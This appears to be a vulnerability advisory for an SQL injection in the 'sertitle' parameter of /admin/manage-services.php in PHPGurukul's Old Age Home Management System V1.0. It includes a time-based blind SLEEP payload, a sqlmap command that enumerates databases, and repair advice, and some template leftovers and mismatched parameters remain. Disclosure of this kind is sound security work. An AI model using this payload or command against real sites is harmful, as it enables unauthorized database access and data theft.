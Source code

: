 # Phpgurukul Old Age Home Management System V1.0 /admin/manage-services.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Old Age Home Management System

## Vendor Homepage

- https://phpgurukul.com/old-age-home-management-system-using-php-and-mysql/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- 你的vuldb名称

## Vulnerable File

- /admin/manage-services.php

## VERSION(S)

- V1.0

## Software Link

- https://phpgurukul.com/projects/Old-Age-Home-MS-using-PHP.zip

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the '/admin/manage-services.php' file of the 'Old Age Home Management System' project. The reason for this issue is that attackers inject malicious code from the parameter 'sertitle' and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Old Age Home Management System",I discovered a critical SQL injection vulnerability "/admin/manage-services.php" file. This vulnerability stems from insufficient user input validation of the 'sertitle' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability lonameion:

- 'sertitle‘ parameter

## Payload:

```makefile
Parameter: sertitle (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sertitle=1' AND (SELECT 5947 FROM (SELECT(SLEEP(5)))IXpx) AND 'Yefw'='Yefw&serdes=1&submit=
```

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```bash
    sqlmap -u "http://10.20.33.25/oahms/admin/manage-services.php" --data="sertitle=1&dob=111111-11-11&contnum=1&commadd=1&emeradd=1&emercontnum=1&submit=" --dbs
```

<img width="929" alt="Image" 删除这一行再粘贴图片 />

# Suggested repair

1. **Use prepared statements and parameter binding:**
   Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. **Input validation and filtering:**
   Strictly validate and filter user input data to ensure it conforms to the expected format.

3. **Minimize database user permissions:**
   Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:**
   Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
